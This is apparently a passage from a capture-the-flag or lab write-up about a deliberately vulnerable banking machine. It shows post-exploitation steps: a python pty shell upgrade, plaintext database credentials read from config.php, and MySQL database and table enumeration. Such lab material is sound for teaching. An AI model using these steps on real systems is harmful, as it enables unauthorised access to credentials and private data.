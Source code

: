 First, I tried to get my hand on a TTY shell.

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Probing the web files, I checked out the `config.php` file and found the following lines.

```php
$db_host = "127.0.0.1";
$db_name = "bank_database";
$db_user = "root";
$db_password = "NuCiGoGo321";
```

I also found that there's another user in the host. The username is taviso.

"NuCiGoGo321" doesn't work as the password for either root or taviso. So I checked out the database content.

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| bank_database      |
| mysql              |
| performance_schema |
| sys                |
| vulnbank           |
+--------------------+
6 rows in set (0.07 sec)
```

Both vulnbank and bank_database has the same tables, but vulnbank's tables are empty.

The following are the tables.

```
mysql> use bank_database;
use bank_database;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-------------------------+
| Tables_in_bank_database |
+-------------------------+
| klienti                 |
| tickets                 |
+-------------------------+
2 rows in set (0.00 sec)
```
